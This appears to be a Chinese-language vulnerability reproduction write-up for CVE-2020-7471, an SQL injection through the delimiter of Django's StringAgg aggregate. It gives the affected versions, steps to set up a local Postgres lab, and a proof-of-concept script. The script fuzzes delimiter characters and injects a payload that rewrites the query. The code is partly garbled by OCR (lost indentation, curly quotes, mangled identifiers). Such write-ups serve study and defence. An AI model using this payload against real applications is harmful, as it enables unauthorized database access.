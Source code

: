 ```yaml
---
title: （CVE-2020-7471）Django sql注入漏洞
id: zhfly2887
---
```


# （CVE-2020-7471）Django sql注入漏洞

## 一、漏洞简介

Django是高水准的由Python编程语言驱动的一个开源Web应用程序框架，起源于开源社区。使用Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020年2月初，Django 官方发布安全通告公布了一个通过StringAgg（分隔符）实现利用的潜在SQL注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意SQL语句

## 二、漏洞影响

Django 1.11.x < 1.11.28
Django 2.2.x < 2.2.10
Django 3.0.x < 3.0.3
Django 主开发分支

## 三、复现过程

### 环境安装

1.  安装 django 漏洞版本，我测试用的是

    ```
    pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple 
    ```

2.  参考 https://www.runoob.com/postgresql/windows-install-postgresql.html 完成 postgres 数据库的安装

3.  新建数据库

    ```
    CREATE DATABASE test; 
    ```

4.  修改 sqlvul_projects/settings.py 里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为postgres），就无需修改任何配置，可以跳过这一步

    ```
    DATABASES = {
        'default': {
            'ENGINE': 'django.db.backends.postgresql',
            'NAME': 'test',         # 数据库名称
            'USER': 'postgres',
            'PASSWORD': 'postgres', # 数据库用户密码
            'HOST': '127.0.0.1',    # 数据库地址
            'PORT': '5432',
        }
    } 
    ```

5.  通过 django 初始化数据表

    ```
    python3 manage.py migrate
    python3 manage.py makemigrations vul_app
    python3 manage.py migrate vul_app 
    ```

### poc

```
# encoding:utf-8
import os
import django
os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

# Django 版本大于等于1.7的时候，需要加上下面两句

if django.VERSION >= (1, 7):#自动判断版本

django.setup()

from vul_app.models import Info

from django.contrib.postgres.aggregates import StringAgg

from django.db.models import Count

“”"

postgres 预先执行的SQL

CREATE DATABASE test;

\c test;

\d 列出当前数据库的所有表格

“”"

def initdb():

data = [(‘li’,‘male’),(‘zhao’,‘male’),(‘zhang’,‘female’)]

for name,gender in data:

Info.objects.get_or_create(name=name,gender=gender)

def query():

# FUZZ delimiter

error_c = []

other_error_c = []

for c in “!@#$%^&*()_+=-|\”’:;?/>.<,{}[]":

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’,delimiter=c))

try:

for e in results:

pass

except IndexError:

error_c.append©

except:

other_error_c.append©

print(error_c)

print(other_error_c)

def query_with_evil():

‘’’

注入点证明

分别设置delimiter为 单引号 二个单引号 二个双引号

尝试注释后面的内容 ‘)–

:return:

‘’’

print("[+]正常的输出：")

payload = ‘-’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e)

print("[+]注入后的的输出：")

payload = ‘-’) AS “mydefinedname” FROM “vul_app_info” GROUP BY “vul_app_info”.“gender” LIMIT 1 OFFSET 1 – ’

results = Info.objects.all().values(‘gender’).annotate(mydefinedname=StringAgg(‘name’, delimiter=payload))

for e in results:

print(e) `if **name** == ‘**main**’:

print(django.VERSION) # 测试版本 3.0.2

initdb()

query()

query_with_evil()` 
```

然后运行 POC 脚本`CVE-2020-7471.py`就可以了

> 漏洞环境及其poc下载地址：https://github.com/ianxtianxt/CVE-2020-7471